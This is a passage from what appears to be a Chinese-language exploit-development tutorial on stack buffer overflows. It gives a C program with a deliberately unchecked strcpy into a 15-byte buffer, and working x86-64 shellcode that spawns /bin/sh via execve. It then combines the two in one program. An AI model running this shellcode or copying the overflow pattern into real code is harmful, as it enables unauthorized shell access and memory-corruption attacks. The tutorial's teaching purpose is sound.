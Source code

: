 在以下屏幕截图中可以看到前面命令的输出：

![](../images/00242.jpeg)

是的，我们改变了执行流程，执行了一些不应该执行的东西！

让我们尝试另一个负载只是为了好玩。我们将在此处使用我们的代码：

```
int copytobuffer(char* input)
 {
     char buffer[15];
     strcpy (buffer,input);
     return 0;
 }

void main (int argc, char *argv[])
 {
     int local_variable = 1;
     copytobuffer(argv[1]);
     exit(0);
 }
```

但是我们将添加上一章中的`execve`系统调用来运行`/bin/sh`：

```
unsigned char code[] =
 "\x48\x31\xc0\x50\x48\x89\xe2\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x53\x48\x89\xe7\x50\x57\x48\x89\xe6\x48\x83\xc0\x3b\x0f\x05";

int main()
 {
     printf("Shellcode Length: %d\n", (int)strlen(code));
     int (*ret)() = (int(*)())code;
     ret();
 }
```

让我们把它们放在一起：

```
 #include <stdio.h>
 #include <string.h>
 #include <stdlib.h>

 void shell_pwn()
 {
    char code[] =
     "\x48\x31\xc0\x50\x48\x89\xe2\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73
     \x68\x53\x48\x89\xe7\x50\x57\x48\x89\xe6\x48\x83\xc0\x3b\x0f\x05";
    printf("Shellcode Length: %d\n", (int)strlen(code));
    int (*ret)() = (int(*)())code;
    ret();
 }
 int copytobuffer(char* input)
 {
     char buffer[15];
     strcpy (buffer,input);
     return 0;
 }

 void main (int argc, char *argv[])
 {
     int local_variable = 1;
     copytobuffer(argv[1]);
     exit(0);
 }
```
